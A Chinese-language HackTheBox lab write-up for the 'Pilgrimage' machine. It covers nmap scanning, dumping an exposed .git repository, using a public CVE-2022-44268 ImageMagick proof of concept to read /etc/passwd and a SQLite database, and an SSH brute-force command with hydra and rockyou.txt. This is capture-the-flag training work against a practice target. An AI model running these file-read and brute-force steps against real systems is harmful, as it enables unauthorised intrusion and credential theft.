






首先扫一下top1000

`nmap -Pn 10.10.11.219 -vv`

(本来一般是扫全量的)但是htb网络环境太慢，所以先扫top1000。

`nmap -Pn  -p- --min-rate=10000 10.10.11.219 -vv`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 16:08 CST
Initiating Connect Scan at 16:08
Scanning pilgrimage.htb (10.10.11.219) [1000 ports]
Discovered open port 80/tcp on 10.10.11.219
Discovered open port 22/tcp on 10.10.11.219
Increasing send delay for 10.10.11.219 from 0 to 5 due to max_successful_tryno increase to 4
Completed Connect Scan at 16:09, 56.40s elapsed (1000 total ports)
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up, received user-set (0.35s latency).
Scanned at 2023-06-29 16:08:41 CST for 56s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 56.45 seconds
```

80和22开放，查看web页面



主要功能有登录，注册，图片上传。

随便注册一个账号登录上去，图片上传是后端校验的，nginx 1.18.0也不存在可利用的解析漏洞。继续扫描22和80端口

```bash
nmap -sCV 10.10.11.219 -p22,80 -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDnPDlM1cNfnBOJE71gEOCGeNORg5gzOK/TpVSXgMLa6Ub/7KPb1hVggIf4My+cbJVk74fKabFVscFgDHtwPkohPaDU8XHdoO03vU8H04T7eqUGj/I2iqyIHXQoSC4o8Jf5ljiQi7CxWWG2t0n09CPMkwdqfEJma7BGmDtCQcmbm36QKmUv6Kho7/LgsPJGBP1kAOgUHFfYN1TEAV6TJ09OaCanDlV/fYiG+JT1BJwX5kqpnEAK012876UFfvkJeqPYXvM0+M9mB7XGzspcXX0HMbvHKXz2HXdCdGSH59Uzvjl0dM+itIDReptkGUn43QTCpf2xJlL4EeZKZCcs/gu8jkuxXpo9lFVkqgswF/zAcxfksjytMiJcILg4Ca1VVMBs66ZHi5KOz8QedYM2lcLXJGKi+7zl3i8+adGTUzYYEvMQVwjXG0mPkHHSldstWMGwjXqQsPoQTclEI7XpdlRdjS6S/WXHixTmvXGTBhNXtrETn/fBw4uhJx4dLxNSJeM=
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOaVAN4bg6zLU3rUMXOwsuYZ8yxLlkVTviJbdFijyp9fSTE6Dwm4e9pNI8MAWfPq0T0Za0pK0vX02ZjRcTgv3yg=
|   256 d14e293c708669b4d72cc80b486e9804 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILGkCiJaVyn29/d2LSyMWelMlcrxKVZsCCgzm6JjcH1W
80/tcp open  http    syn-ack nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**10.10.11.219:80/.git/** 发现web目录下的git，用git-dumper拉下来看看

目录结构为

```bash
.
├── assets
│   ├── bulletproof.php
│   ├── css
│   │   ├── animate.css
│   │   ├── custom.css
│   │   ├── flex-slider.css
│   │   ├── fontawesome.css
│   │   ├── owl.css
│   │   └── templatemo-woox-travel.css
│   ├── images
│   │   ├── banner-04.jpg
│   │   └── cta-bg.jpg
│   ├── js
│   │   ├── custom.js
│   │   ├── isotope.js
│   │   ├── isotope.min.js
│   │   ├── owl-carousel.js
│   │   ├── popup.js
│   │   └── tabs.js
│   └── webfonts
│       ├── fa-brands-400.ttf
│       ├── fa-brands-400.woff2
│       ├── fa-regular-400.ttf
│       ├── fa-regular-400.woff2
│       ├── fa-solid-900.ttf
│       ├── fa-solid-900.woff2
│       ├── fa-v4compatibility.ttf
│       └── fa-v4compatibility.woff2
├── dashboard.php
├── index.php
├── login.php
├── logout.php
├── magick
├── register.php
└── vendor
    ├── bootstrap
    │   ├── css
    │   │   └── bootstrap.min.css
    │   └── js
    │       └── bootstrap.min.js
    └── jquery
        ├── jquery.js
        ├── jquery.min.js
        ├── jquery.min.map
        ├── jquery.slim.js
        ├── jquery.slim.min.js
        └── jquery.slim.min.map

```

图片上传的代码为

```php

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
    else {
      header("Location: /?message=Image shrink failed&status=fail");
    }
  }
  else {
    header("Location: /?message=Image shrink failed&status=fail");
  }
}
```

其中利用了magick进行图片上传，查看一下magick的版本。对web路径下的magick求md5值，

查询得到是版本为imagemagick-7.1.0-49

查询magick是否有可以利用的漏洞， 该版本存在CVE-2022-44268 任意文件读取漏洞


在github上搜到利用脚本[CVE-2022-44268 poc](https://github.com/voidz0r/CVE-2022-44268)，使用该脚本生成payload，查看/etc/passwd。将生成的PNG图片上传。



然后下载下来

`identify -verbose 649d518081d36.png` 查看图片详细信息。在最后看到输出的内容。



转码后得到：

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

得到用户名emily，然后爆破一波。

`hydra -l emily -P /usr/share/wordlists/rockyou.txt ssh://10.10.11.219 -s 22 -vV`

跑了一会儿没有结果，回头看源码，在存图片时连接了数据库`$db = new PDO('sqlite:/var/db/pilgrimage');`这里给出sqlite数据库的绝对路径。那么可以继续用刚才的方法把数据库读下来。读下来之后新建一个sqlite3文件，用Hex Editor打开，填入读到的数据。



然后打开数据库，其中有两个表，一个用来存图片路径，另外一个就是我们需要的users。其中emily的密码明文存储。



ssh登录，拿到user flag。


